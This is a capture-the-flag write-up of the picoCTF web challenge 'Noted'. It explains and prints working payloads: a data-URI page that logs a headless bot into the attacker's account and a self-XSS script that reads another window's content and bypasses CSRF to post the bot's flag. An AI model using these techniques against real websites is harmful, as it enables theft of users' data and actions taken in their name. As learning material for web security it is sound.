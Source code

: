 #	Noted - Web - 500 Points

Noted was the second to last challenge in the web category worth 500 points, and the consensus on the Pico discord was that this is the point where the difficulty jumped up significantly compared to previous challenges.


Personally, I found this to be the most interesting challenge of the whole event, learned a lot from it, and found the solution to be very satisfying. 

#### TL;DR

1. Report a data URI which would open a separate window containing the bot's /notes page and flag, and log the bot into our account from the first window.
2. Trigger XSS from our page to bypass CORS and CSRF, making the bot create a note on our page with the contents of previously opened window.

### Introduction

This was a whitebox challenge, with the source code available to us, and the application itself was a very barebones note taking app. 

It's functionality was that a user could register, login, write/delete notes which were rendered on the user's homepage, or report a link. It didn't actually say who it the link was being reported to, but typically report functionality is used in CTFs in cases of client-side attacks. 

A quick test of the note functionality showed that the app didn't do any sanitisation of user supplied input, but it did use CSRF tokens on the form used to submit our notes.

Looking at the source code we could see that the application used Puppeteer - a headless chrome package - which is very commonly used in XSS challenges. Each time you submitted a link to the bot, it would create a new account using crypto.randomBytes(16) for both username and password, and then creating a note which would contain the flag. It would then open an about:blank page, and vist the link we reported.

My first instinct was to attempt exfiltrate the bot's cookies/session, however the challenge description said that the bot didn't have internet access - each new instance of Puppeteer would actually point to http://0.0.0.0:8080 when creating that flag note. Later we found out that the challenge was altered and the bot was given internet access, however it did not affect our solution.

Exfiltrating the bot's cookies also didn't make sense because there was no publicly shared functionality on the app, and any kind of XSS attempt would have reset the bot's cookies. 

The first piece of the puzzle was the self XSS on the user page - the lack of sanitisation meant that we could execute any javascript we wanted in the context of the main app's domain. But we couldn't simply force the bot to self XSS by creating a new note on the bot's page containing an XSS payload, as we still had to bypass CSRF protection. 

We knew that bypassing CSRF through our self XSS was as simple as fetching /new, extracting the token from the response and attaching it to our post request, so we just had to find a way to have the bot perform a self XSS with our payload - meaning we would need to log the bot into our account, while still keeping the data from the bot's page available to us.



###	iframes are weird.

At this point we had enough information to try and piece everything together, and we had a feeling that there would be some kind of cross-frame scripting involved. 

While browsers enforce CORS and SOP policies preventing iframes from different domains from sharing any information, iframes from the same domain are free to talk to each other - even when nested inside each other. Meaning if you have a page with 2 iframes from the same domain embedded in it, iframe 1 is free to reach up through its' parent into iframe 2. 

But that behaviour also applies to javascript's window.open() function. If you pass a second parameter into window.open(), you can use that window object later with the second parameter acting as a name/variable for that window. Using our self XSS we were free to reach up from the app domain into a previously opened window.open() object and access anything on that page.

### Exploit

So piecing everything together:

1. Post a note on our page containing the main payload, which would be the last payload to be triggered in the chain. It would fetch a CSRF token and create a new note on our page.
2. The link we would report to the bot would be a data URI, containing a minified bare bones html page with a form and some javascript. The form had our username and passord filled in as the value attributes of the form inputs, but before submitting the form it would first open a new window pointing to /notes - which would have the bot's notes/flag on it.
3. The form would then be submitted, making a post request to /login, and redirecting to our page.
4. The bot would be redirected to our page, trigering the main payload which would reach back up to the previously opened window object and leaving a note on our page with the contents of that page, and the flag itself - bypassing CSRF protection in the process. 

So these were our final payloads:

> Data URI:

data:text/html;charset=utf-8,%3Chtml%3E%20%3Cbody%3E%20%3Cform%20action%3D%22http%3A%2F%2F0.0.0.0%3A8080%2Flogin%22%20id%3D%22f%22%20method%3D%22POST%22%3E%20%3Cinput%20name%3D%22username%22%20value%3D%22a%22%3E%20%3Cinput%20name%3D%22password%22%20value%3D%22a%22%3E%20%3Cinput%20type%3D%22submit%22%20value%3D%22Submit%22%3E%20%3C%2Fform%3E%20%3C%2Fbody%3E%20%3Cscript%3Ewindow.open(%22http%3A%2F%2F0.0.0.0%3A8080%2Fnotes%22%2C%20%22w%22)%3B%20f.submit()%3C%2Fscript%3E%3C%2Fhtml%3E



> Contents of the initial data URI payload:

	<html>
	    <body>
	        <form action="http://0.0.0.0:8080/login" id="f" method="POST">
	            <input name="username" value="a">
	            <input name="password" value="a">
	            <input type="submit" value="Submit">
	        </form>
	    </body>
	    <script> 
	    window.open("http://0.0.0.0:8080/notes", "w");
	    f.submit();
	    </script>
	</html>



> Contents of the payload from our page:

	let fW = window.open('', 'w'); 
    let flag = fW.document.documentElement.innerText;
    let y = new XMLHttpRequest()
    y.onreadystatechange = function() {
    if (y.readyState == 4) {
        parser = new DOMParser();
        let g = parser.parseFromString(y.responseText, "text/html")
        let s = g.getElementsByName('_csrf')[0].value
    fetch('http://0.0.0.0:8080/new', {
        method: 'POST',
        credentials: 'include',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({
            _csrf: s,
            title: 'Hello',
            content: flag,
        }),
    })
    }
    };
    y.open("GET", "http://0.0.0.0:8080/new", true);
    y.send();


So finally refreshing our page a few seconds after submitting our URL, our page had a new note on it containing the flag.

This was a very fun and satisfying challenge, huge thanks to Pico and the challenge creators!